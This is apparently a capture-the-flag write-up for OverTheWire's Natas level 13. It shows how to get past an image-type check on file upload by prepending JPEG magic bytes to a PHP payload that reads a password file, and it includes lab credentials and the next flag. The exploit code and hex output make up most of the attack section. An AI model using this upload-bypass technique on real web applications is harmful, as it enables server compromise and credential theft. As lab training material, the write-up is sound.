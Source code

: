 # Level 13
## What does the page look like?
```html
$ curl -s --user natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org/

```
## Source code
```html
$ curl -s --user natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY http://natas13.natas.labs.overthewire.org//index-source.html | html2text 

```

## Vulnerability
This is the same kind of challenge as for the previous level, but this time, there is an additional control that will check the MIME type using the `exif_imagetype` function.

This additional control can be bypassed by creating a file that will contain both the `*.jpg` header (`\xFF\xD8\xFF\xE0`), and PHP code.

We will prepare a PHP file that will read the password file, and that we will be able to send to the server instead of the expected `*.jpg`:

## Exploitation
Let's first create our fake image:
```python
$ python2
>>> fh = open('hack.php', 'w')
>>> fh.write("\xFF\xD8\xFF\xE0" + "<?php echo file_get_contents('/etc/natas_webpass/natas14'); ?>")
>>> fh.close()
```
You can check that the `file` command identifies [`hack.php`](files/hack.php) as a picture:
~~~~
$ file hack.php 
hack.php: JPEG image data
~~~~
Because it contains the relevant header; however, our PHP code is there:
~~~~
$ xxd hack.php 
00000000: ffd8 ffe0 3c3f 7068 7020 6563 686f 2066  ....<?php echo f
00000010: 696c 655f 6765 745f 636f 6e74 656e 7473  ile_get_contents
00000020: 2827 2f65 7463 2f6e 6174 6173 5f77 6562  ('/etc/natas_web
00000030: 7061 7373 2f6e 6174 6173 3134 2729 3b20  pass/natas14'); 
00000040: 3f3e                                     ?>
~~~~

To exploit this vulnerability, open the developer toolbar, edit the code in the form and replace the value of `filename` by `hack.php`, and upload the script exactly as in the previous level.

# Flag
~~~~
natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
~~~~
